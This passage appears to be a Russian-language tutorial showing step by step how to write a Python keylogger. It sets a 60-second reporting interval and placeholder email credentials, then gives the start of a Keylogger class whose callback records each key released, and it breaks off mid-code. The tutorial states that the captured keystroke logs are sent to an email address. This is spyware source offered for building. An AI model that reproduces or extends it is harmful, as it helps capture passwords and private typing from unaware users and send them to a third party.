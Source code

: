 Примечание: С 30 мая 2022 года Google больше не поддерживает использование сторонних приложений или устройств, которые просят вас войти в свой аккаунт Google, используя только ваше имя пользователя и пароль. Поэтому этот код не будет работать для учетных записей Gmail. Если вы хотите взаимодействовать со своей учетной записью Gmail на Python, я настоятельно рекомендую вам вместо этого использовать учебник по API Gmail.

Теперь инициализируем наши параметры:

SEND_REPORT_EVERY = 60 # in seconds, 60 means 1 minute and so on
EMAIL_ADDRESS = "email@provider.tld"
EMAIL_PASSWORD = "password_here"
Заметка: Очевидно, что вам нужно указать свои правильные учетные данные электронной почты; в противном случае отправка сообщений по электронной почте не будет работать.

Установка SEND_REPORT_EVERY на 60 означает, что мы сообщаем наши журналы ключей каждые 60 секунд (т. Е. Одну минуту). Не стесняйтесь редактировать это в соответствии с вашими потребностями.

Лучший способ представить кейлоггер — создать для него класс, и каждый метод в этом классе выполняет определенную задачу:

class Keylogger:
    def __init__(self, interval, report_method="email"):
        # we gonna pass SEND_REPORT_EVERY to interval
        self.interval = interval
        self.report_method = report_method
        # this is the string variable that contains the log of all 
        # the keystrokes within `self.interval`
        self.log = ""
        # record start & end datetimes
        self.start_dt = datetime.now()
        self.end_dt = datetime.now()
По умолчанию мы устанавливаем report_method «email», что означает, что мы будем отправлять журналы ключей на нашу электронную почту. Вы увидите, как мы передаем «файл» позже, и он сохранит его в локальный файл.

Теперь нам нужно будет использовать функцию on_release() клавиатуры, которая принимает обратный вызов, который будет вызываться для каждого KEY_UP event (всякий раз, когда вы отпускаете клавишу на клавиатуре), этот обратный вызов принимает один параметр, который является KeyboardEvent, который имеет атрибут name, давайте реализуем его:

    def callback(self, event):
        """
        This callback is invoked whenever a keyboard event is occured
        (i.e when a key is released in this example)
        """
        name = event.name
        if len(name) > 1:
            # not a character, special key (e.g ctrl, alt, etc.)
            # uppercase with []
            if name == "space":
                # " " instead of "space"
                name = " "
            elif name == "enter":
                # add a new line whenever an ENTER is pressed